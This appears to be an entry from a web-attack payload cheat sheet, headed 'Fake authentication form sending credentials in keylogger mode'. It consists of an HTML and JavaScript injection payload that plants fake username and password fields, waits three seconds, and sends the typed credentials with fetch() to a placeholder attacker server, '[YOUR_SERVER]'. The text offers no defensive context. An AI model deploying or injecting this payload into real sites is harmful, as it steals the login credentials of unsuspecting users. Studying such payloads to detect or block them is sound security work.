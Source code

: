### Fake authentication form sending credentials in keylogger mode

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
